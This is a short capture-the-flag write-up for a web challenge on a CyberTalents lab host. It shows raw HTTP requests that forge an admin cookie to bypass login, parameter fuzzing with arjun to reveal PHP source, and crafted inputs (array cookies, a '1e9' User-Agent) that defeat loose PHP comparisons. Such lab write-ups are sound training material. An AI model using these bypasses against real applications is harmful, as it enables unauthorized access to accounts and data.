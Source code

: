 - there is a hint admin:admin in source code
- when you intercept requests you will notice the response :
````
HTTP/1.1 200 OK
Server: nginx/1.23.2
Date: Fri, 11 Aug 2023 06:02:06 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 678
Connection: close
X-Powered-By: PHP/7.2.34
Set-Cookie: admin=False
Vary: Accept-Encoding
````
- try get request with Cookie: admin=True
````
POST /index.php HTTP/1.1
Host: wcamxwl32pue3e6mrndvjlluezy41y3eq9ypfx3m-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: admin=True
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://wcamxwl32pue3e6mrndvjlluezy41y3eq9ypfx3m-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mrndvjlluezy41y3eq9ypfx3m-web.cybertalentslabs.com/index.php
Upgrade-Insecure-Requests: 1

user_name=admin&user_pass=admin&submit=Login
````
- you will redirect to page you can access it directly or find it by fuzzing  XD
- hint: May Be Guessing Is Helpful ;)
- use arjun will find parameter src 
````
arjun -u http://wcamxwl32pue3e6mrndvjlluezy41y3eq9ypfx3m-web.cybertalentslabs.com/InSiDe.php
````
- you can see the source now by http://wcamxwl32pue3e6mrndvjlluezy41y3eq9ypfx3m-web.cybertalentslabs.com/InSiDe.php?src=
- first part
  
````
if(strcmp($_GET['flag'],"View")==0)
// http://wcamxwl32pue3e6mrndvjlluezy41y3eq9ypfx3m-web.cybertalentslabs.com/InSiDe.php?flag=View
````
- second part

````
Cookie: cc[0]=0; kk[1]=0
````
- third part

````
User-Agent: 1e9
````
